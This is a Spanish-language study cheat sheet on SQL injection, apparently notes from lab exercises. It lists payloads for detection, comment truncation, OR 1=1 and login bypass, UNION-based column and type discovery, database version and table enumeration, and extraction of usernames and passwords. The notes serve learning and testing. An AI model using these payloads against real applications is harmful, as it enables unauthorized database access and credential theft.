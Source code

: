 # SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | *simbolo comun para testear si existe SQLi o no.*

" | *simbolo comun para testear si existe SQLi o no.*

' -- | *simbolo comun para testear si existe SQLi o no.*

## COMENTARIOS "bypass"

-- | *dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | *dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

## LOGIC BYPASS 

' OR 1=1-- | *sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | *cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.*

## UNION ATTACK

**PRE-REQ:** *numero de columnas y data type de cada columna*

#### COMO SABER EL NUMERO DE COLUMNAS ?

**METODO_1:** ' ORDER BY 1-- \
**METODO_2:** ' UNION SELECT NULL--

#### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> *se tiene que hacer iterativo cambiando los campos para saber que tipo son.*

> Oracle

' UNION SELECT 'a','a' from DUAL--

#### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

**Microsoft** >> SELECT @@version \
**MySQL** >> SELECT @@version \
**Oracle** >> SELECT banner FROM v$version | SELECT version FROM v$instance \
**PostgreSQL** >> SELECT version() 

#### LISTAR TABLAS DE LA BASE DE DATOS / [[Microsoft](https://learn.microsoft.com/en-us/sql/relational-databases/system-information-schema-views/tables-transact-sql?view=sql-server-ver16) | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema-table-reference.html) | [PostgreSQL](https://www.postgresql.org/docs/current/infoschema-tables.html)] 

SELECT [columns] FROM information_schema.tables \
SELECT [columns] FROM information_schema.columns \
SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

#### LISTAR TABLAS DE LA BASE DE DATOS / [[Oracle](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)] 

SELECT [columns] FROM all_tables \
SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

#### MOSTRAR INFORMACION DE OTRAS TABLAS 

' UNION SELECT username, password FROM users-- | *retrieve the username and password from table "users"*





